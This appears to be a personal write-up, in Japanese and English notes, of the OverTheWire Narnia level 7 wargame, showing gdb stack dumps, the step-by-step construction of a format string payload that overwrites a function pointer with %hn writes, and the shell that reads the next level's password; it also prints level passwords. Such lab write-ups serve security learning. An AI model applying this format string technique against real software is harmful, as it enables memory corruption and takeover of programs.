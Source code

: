 ```sh
$ ssh -p 2226 narnia7@narnia.labs.overthewire.org
```

password: ahkiaziphu

hackedfunction(\x06\x87\x04\x08)に飛ばす


## In local

"A"\*140
```
gdb-peda$ x/100wx $esp
0xffffbdd0: 0xffffbdf0  0x00000080  0xffffc1f6  0xffffbe48
0xffffbde0: 0xf7ffda74  0x00000001  0xf7fd4b48  0x080486e0 <- addr of goodfunction()
0xffffbdf0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe00: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe10: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe20: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe30: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe40: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe50: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffbe60: 0x41414141  0x41414141  0x41414141  0x00414141
0xffffbe70: 0x00000002  0xffffbf34  0xffffbe98  0x080486d8
```

format string attack

"A" * 4

```
gdb-peda$ x/100wx $esp
0xffffbe50: 0xffffbe70  0x00000080  0xffffc27e  0xffffbec8
0xffffbe60: 0xf7ffda74  0x00000001  0xf7fd4b48  0x080486e0
0xffffbe70: 0x00000000  0x00000000  0x00000000  0x00000000
```

after snprintf()

```
gdb-peda$ x/100wx $esp
0xffffbe50: 0xffffbe70  0x00000080  0xffffc27e  0xffffbec8
0xffffbe60: 0xf7ffda74  0x00000001  0xf7fd4b48  0x080486e0
0xffffbe70: 0x41414141  0x00000000  0x00000000  0x00000000
```

<b>Use format string attack</b>

書き込みたいポインタのアドレス -> 0xffffbefc(buffer)

よって、[addr + 2][addr]は
\xfe\xbe\xff\xff\xfc\xbe\xff\xff になる

次に、書き込むアドレスの値はhackedfunction()の値である0x8048706

HOB(high order bytes) -> 0x0804
LOB(low order bytes)  -> 0x8706

HOB < LOB なので、%.[HOB - 8]x を求める。

HOB - 8 -> 0x7fc -> 2044

%.2044x

次に %[offset]$hn -> %6\$hn


%.[LOB - HOB]x

LOB - HOB -> 0x7f02 -> 32514

%.32514x

次に %[offset + 1]$hn -> %7\$hn

$(echo -e "\xfe\xbe\xff\xff\xfc\xbe\xff\xff"%.2044x%6\$hn%.32514x%7\$hn)


アドレスを"\xde\xbe\xff\xff\xdc\xbe\xff\xff"にしたらいけた

なんで0x20分ずれてる？？？ ローカルだとなぜか[(addr-0x20) + 2][(addr-0x20)]になってる

./narnia7 $(echo -e "\xde\xbe\xff\xff\xdc\xbe\xff\xff")%.2044x%6\$hn%.32514x%7\$hn


## In remote
```sh
narnia7@narnia:/narnia$ ./narnia7 AA
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd68c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

\x8e\xd6\xff\xff\x8c\xd6\xff\xff

次に、書き込むアドレスの値はhackedfunction()の値である0x8048706

..........


```sh
narnia7@narnia:/narnia$ ./narnia7 $(echo -e "\x8e\xd6\xff\xff\x8c\xd6\xff\xff"%.2044x%6\$hn%.32514x%7\$hn)
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd66c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

\x8e\xd6\xff\xff\x8c\xd6\xff\xff を \x6e\xd6\xff\xff\x6c\xd6\xff\xff に変えたらいけた
before : ptrf() = 0x80486e0 (0xffffd68c) の 0xffffd68c を使うのではない？？？？

```sh
narnia7@narnia:/narnia$ ./narnia7 $(echo -e "\x6e\xd6\xff\xff\x6c\xd6\xff\xff"%.2044x%6\$hn%.32514x%7\$hn)
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd66c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ cat /etc/narnia_pass/narnia8
mohthuphog
$ exit
```
